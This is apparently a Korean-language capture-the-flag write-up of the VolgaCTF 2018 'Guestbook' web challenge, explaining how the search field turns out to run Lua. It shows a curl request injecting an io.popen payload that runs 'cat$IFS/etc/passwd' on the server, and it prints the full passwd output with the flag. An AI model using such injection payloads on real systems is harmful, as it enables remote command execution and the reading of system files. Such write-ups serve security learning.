 # [Web] VolgaCTF - Guestbook

## Description

Drop a line to us <http://guestbook.quals.2018.volgactf.ru/>



## Analysis

페이지는 단순하게 되어 있다.

기능은 크게 2가지 글 작성, 글 검색이다.

아무리봐도 글 작성 부분에서는 취약점이 발생할 것 같지 않았다.

그래서 글 검색 부분을 중점으로 삽질을 하였다.

\x251을 검색하였더니 `%search%`의 결과가 나오는 걸로봐서 스트링 포맷이나 그런거 같아보였다.

삽질하다가 Lua 스크립크로 구현되 있는것을 발견하였다.



## Exploit

Lua 문법으로 /etc/passwd파일을 열었고, flag를 얻었다.

**Query :** "..io.popen('cat$IFS/etc/passwd','r'):read('a').."

```
$ curl "http://guestbook.quals.2018.volgactf.ru/search?search=\"..io.popen('cat\$IFS/etc/passwd','r'):read('a')..\"" 

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<meta http-equiv="X-UA-Compatible" content="IE=edge">
<meta name="viewport" content="width=device-width, initial-scale=1">
<title>VolgaCTF Guestbook</title>

...
<div class="container">
  <form action="/search" method="get">
    <div class="form-group">
    	<label for="hText">Text</label>
      <input type="text" class="form-control" id="hText" placeholder="Text (required)" name="search" value="root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:mailing list manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:gnats bug-reporting system (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd time synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd network management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd bus proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:109:115:mysql server,,,:/nonexistent:/bin/false
volgactf:x:1000:1000:volgactf{edfda74ff3b0e2fe43f2be18cc6af1f2}:/home/volgactf:/sbin/nologin
" required>
    </div>
    <button type="submit" class="btn btn-primary">Search</button>
  </form>
</div>
...
```



**volgactf{edfda74ff3b0e2fe43f2be18cc6af1f2}**